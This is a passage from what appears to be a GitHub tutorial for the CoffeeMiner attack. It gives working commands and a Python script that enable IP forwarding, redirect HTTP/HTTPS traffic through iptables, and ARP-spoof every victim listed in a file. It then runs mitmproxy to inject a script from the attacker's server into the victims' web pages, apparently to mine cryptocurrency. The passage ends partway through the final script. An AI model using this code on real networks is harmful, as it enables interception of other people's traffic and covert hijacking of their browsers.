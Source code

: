 
First of all, we need to configure the ip_forwarding and IPTABLES, in order to convert the attacker's machine into a proxy:

```bash
echo 1 > /proc/sys/net/ipv4/ip_forward
iptables -t nat -A POSTROUTING -o eth0 -j MASQUERADE
iptables -t nat -A PREROUTING -p tcp --destination-port 80 -j REDIRECT --to-port 8080
```

To perform the ARPspoof for all the victims, we will prepare a 'victims.txt' file with all the victim's IP.
To read all the victims IPs, we prepare some Python lines, that will get the IPs (and also the gateway IP from the command line args), and performs the ARPspoof for each one of the victim's IP.

```python
# get gateway_ip
gateway = sys.argv[1]
print("gateway: " + gateway)
# get victims_ip
victims = [line.rstrip('\n') for line in open("victims.txt")]
print("victims:")
print(victims)

# run the arpspoof for each victim, each one in a new console
for victim in victims:
    os.system("xterm -e arpspoof -i eth0 -t " + victim + " " + gateway + " &")
    os.system("xterm -e arpspoof -i eth0 -t " + gateway + " " + victim + " &")
```

Once we have the ARPspoofing performed, we just need to run the HTTP Server:
```bash
> python3 httpServer.py
```
And now, we can run the mitmproxy with the injector.py:
```bash
> mitmdump -s 'injector.py http://httpserverIP:8000/script.js'
```

## 3.1 CoffeeMiner, final script
Now we put all the concepts explained above in the 'coffeeMiner.py' script:

```python
import os
import sys

#get gateway_ip (router)
gateway = sys.argv[1]
print("gateway: " + gateway)
# get victims_ip
victims = [line.rstrip('\n') for line in open("victims.txt")]
print("victims:")
print(victims)

# configure routing (IPTABLES)
os.system("echo 1 > /proc/sys/net/ipv4/ip_forward")
os.system("iptables -t nat -A POSTROUTING -o eth0 -j MASQUERADE")
os.system("iptables -t nat -A PREROUTING -p tcp --destination-port 80 -j REDIRECT --to-port 8080")
os.system("iptables -t nat -A PREROUTING -p tcp --destination-port 443 -j REDIRECT --to-port 8080")


# run the arpspoof for each victim, each one in a new console
for victim in victims:
    os.system("xterm -e arpspoof -i eth0 -t " + victim + " " + gateway + " &")
    os.system("xterm -e arpspoof -i eth0 -t " + gateway + " " + victim + " &")

# start the http server for serving the script.js, in a new console
```